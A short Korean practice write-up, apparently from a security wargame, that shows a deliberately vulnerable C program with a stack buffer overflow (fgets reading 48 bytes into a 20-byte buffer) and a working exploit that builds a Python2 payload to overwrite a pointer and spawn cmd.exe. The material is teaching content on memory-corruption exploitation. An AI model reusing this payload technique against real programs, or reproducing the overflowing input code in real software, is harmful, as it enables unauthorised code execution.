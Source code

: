 # Local Variable 2

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
#include <stdio.h>
int main()
{
	int crap;
	int *check;
	char buf[20];
	fgets(buf, 48, stdin);
	if (*check == 0xbadc0ded)
	{
		system("cmd.exe");
	}
	return 0;
}
```



<br>



### Result

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print \'\\xed\\x0d\\xdc\\xba\' + \'A\'*16 + \'\\x10\\xff\\x19\\x00\'\"";
	char *fname = "C:\\Users\\roj\\Downloads\\local_var_2.exe";

	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

![image-1.png](images/image-1.png)

- Local Variable_1과 마찬가지로 cmd.exe가 유지되지 않고 꺼짐

- Linux에서는 ';cat' 명령어를 붙여 실행하여 유지 가능
